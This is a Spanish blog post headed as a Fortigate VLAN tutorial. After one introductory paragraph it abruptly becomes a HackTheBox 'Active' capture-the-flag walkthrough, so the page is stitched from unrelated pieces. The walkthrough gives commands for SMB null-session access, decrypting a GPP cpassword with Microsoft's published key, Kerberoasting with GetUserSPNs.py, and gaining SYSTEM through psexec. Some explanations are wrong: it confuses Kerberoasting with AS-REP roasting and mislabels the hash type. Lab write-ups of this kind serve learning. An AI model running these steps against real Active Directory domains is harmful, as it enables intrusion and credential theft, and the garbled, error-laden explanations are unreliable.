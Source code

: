 ```yaml
---
title: "VLANS en Fortigate"
layout: post
---
```

![Fortigate](/assets/images/Vlan1.png)


<h2>Presentación</h2>
En esta ocasion estaremos configurando un Firewall Fortigate junto a un Switch de capa 3, diferentes Vlans, para la separacion logica del trafico, en otro post estaremos presentando que es una VLAN y para que se utilizan asi como sus beneficios. 

<h2>Reconocimiento</h2>
En la imagen tenemos un Fortigate de cara al internet (_Aunque la etiqueta LAN, se me quedo encima de la nube_ 😑) este fortigate haciendo la funcion de _edge firewall_ o firewall de perimetro se encarga del procesar el trafico que proviene de la red, en este caso de las diferentes VLANS _Docentes, Alumnos y Administradores_ estos nombres para las diferentes son intencionalmente seleccionados para presentar unos de los mayores beneficios de la utilizacion de VLANS, y es que crear VLANS nos permite crear diseños más flexibles que agrupen a los usuarios por departamento, o por grupos que trabajan en lugar de por su ubicación física, y que como medida de seguridad nos permita implementar la aplicación de diferentes políticas de seguridad por VLANs.
  
{% highlight bash %}
nmap -p- --min-rate 5000 10.10.10.100 -oG allports
{% endhighlight %}

**Output** Ports: 53/open/tcp//domain/, 88/open/tcp//kerberos-sec/, 135/open/tcp//msrpc, 139/open/tcp//netbios-ssn, 389/open/tcp//ldap/, 445/open/tcp//microsoft-ds/, 464/open/tcp//kpasswd5/, 593/open/tcp...

<h2>Puertos y Servicios</h2>
Con el fin de conocer un poco más de los servicios que se están ejecutando y lanzar una serie de script básico de reconocimiento para dichos puertos y servicios. 

{% highlight bash %}
nmap -p53,88,135,139,445,464,593,636,3268,3269,5722,9389 -sCV -A -oN allservices 10.10.10.100
{% endhighlight %}

![Ative HTB](/assets/images/services.png)

<h2> SMB smbmap % smbclient </h2>
A través de smbclient nos conectamos al directorio que tenemos acceso de lectura como nos indicó el comando, en este caso el directorio \Replication, luego de mapear dicho directorios con el comando smbmap que nos lista los permisos de los directorios, es decir si tenemos permisos de lectura y escritura:

{% highlight bash %}
smbmap -H 10.10.10.100
{% endhighlight %}

Con smbclient haciendo uso de un null session accedimos a listar dicho directorio y su contenido.
{% highlight bash %}
smbclient //10.10.10.100/Replicacion -U ""%""
{% endhighlight %}

![Ative HTB](/assets/images/smbclient.png)

Luego de navegar por el directorio policies en busca de algo interesante y observando cada archivo hasta dar con el archivo groups.xml, que según el siguiente article de [Hacking-Article][Hacking-Article] es creado como consecuencia de la configuración de Group Policy Preference, en la que permiten a un administrador crear policies e instalar aplicaciones a través de Group Policy. Y sobre la cual se guarda una contraseña encriptada en formato _cpassword_, y de la cual Microsoft publicó la llave, como podemos observar en el siguiente artículo, [Microsoft][Microsoft], trasladamos el contenido de dicha carpeta a nuestra carpeta content y efectivamente, como se puede observar, obtenemos las credenciales del usuario SVC_TGS:

{% highlight bash %} <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups> {% endhighlight %}

Desencriptamos la contraseña con el uso de la herramienta gpp-decrypt:

![Ative HTB](/assets/images/ggp.png)

también podemos hacer uso de el siguiente one-liner ya que conocemos la llave como mencionamos anteriormente:
{% highlight bash %} 
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000 
{% endhighlight %}

<h2>Validación de credenciales</h2>

Utilizamos la herramienta crackmapexec.py del poderoso _impacket_ para verificar la autenticidad de dicho usuario en el dominio **active.htb**, las cuales resultaron ser válida aunque no obtuvimos un (Pwned!) e intentamos verificar si podiamos loguearnos a traves de winrm, pero no fue así. 

![Ative HTB](/assets/images/gpp.png)

**Nota** desde aqui podemos visualizar la flag del user, haciendo uso de smbclient y navegando entre directorios :)

{% highlight bash %} smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingSt----8 {% endhighlight %}

Pero teniendo un usuario y contraseña, se nos hace posible realizar un Kerberoasting attack, el cual TCM Security explica detallamente, que nos _dumpea_ los krbasrep5 hashes de las cuentas que tienen _Kerberos pre-authentication deshabilidata_ pero que explico con más detalle en el siguiente artículo, sobre mis apuntes. 
Para esto utilizamos la herramienta _GetUserSPNs.py_, del poderoso impacket 🏅  

{% highlight bash %} GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS {% endhighlight %}

obtenemos el hash NTLMv2, enviamos a un archivo de texto y utilizamos John The Ripper, para obtener la credencial en texto plano.

![Ative HTB](/assets/images/hash.png)

y ya obteniendo credenciales de administrador como nos muestra la primera línea del output del GetUserSPNs.py, y contraseña nos logueamos en el sistema. 

![Ative HTB](/assets/images/psexec.png)

Ya siendo Nt Authority\System, a buscar las flags.
Que he decidido mostrar solo si existe algún paso más para llegar a ellas, no que tan solo sea navegar entre directorios como es este el caso, para poder verla. 

🖱️_by:_ *@DaVinciRoot*

[Hacking-Article]: https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/
[Microsoft]: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0

